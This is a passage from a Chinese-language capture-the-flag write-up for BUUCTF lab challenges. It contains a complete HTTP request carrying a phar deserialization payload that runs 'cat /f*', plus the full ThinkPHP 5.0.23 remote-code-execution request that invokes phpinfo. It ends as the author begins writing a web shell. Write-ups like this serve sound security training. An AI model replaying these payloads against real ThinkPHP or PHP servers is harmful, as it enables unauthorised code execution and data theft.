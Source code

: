 生成的hack.phar就是我们要的，上传即可

payload

```http
POST /pairing.php?pear=1.phar&apple=phar://1.phar HTTP/1.1
Host: ac60fca3-8ea0-4508-92de-e38171dcd42d.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://ac60fca3-8ea0-4508-92de-e38171dcd42d.node5.buuoj.cn:81/pairing.php?pear=1.php
Cookie: looklook=pairing.php
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 449

%3C%3Fphp%20__HALT_COMPILER%28%29%3B%20%3F%3E%0D%0Av%00%00%00%01%00%00%00%11%00%00%00%01%00%00%00%00%00%40%00%00%00O%3A5%3A%22story%22%3A3%3A%7Bs%3A6%3A%22eating%22%3Bs%3A7%3A%22cat%20/f%2A%22%3Bs%3A3%3A%22God%22%3Bs%3A4%3A%22true%22%3B%7D%08%00%00%00test.txt%04%00%00%00%EF%BF%BD%7F%EF%BF%BDe%04%00%00%00%0C~%7F%D8%B6%01%00%00%00%00%00%00test%EF%BF%BD%5D%EF%BF%BD%1DGCj%3E%EF%BF%BD%EF%BF%BD%8B%29C_%1Dl%E293M%A6%E1AG2%C7%1E%87%B8%DD%02%00%00%00GBMB
```

![image-20240319202922780](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240319202922780.png)

### Final

> ThinkPHP V5，这题是Thinkphp5.0.23 rce漏洞

kali上也能搜得到

![image-20240319210745415](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240319210745415.png)

我们就利用这个漏洞打吧

```http
POST /index.php?s=captcha HTTP/1.1
Host: 6f18a5ea-572c-45a9-aa83-c5e4239a4274.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

这里system被禁用了，用不了，phpinfo还是可以出的

接着我们写个shell
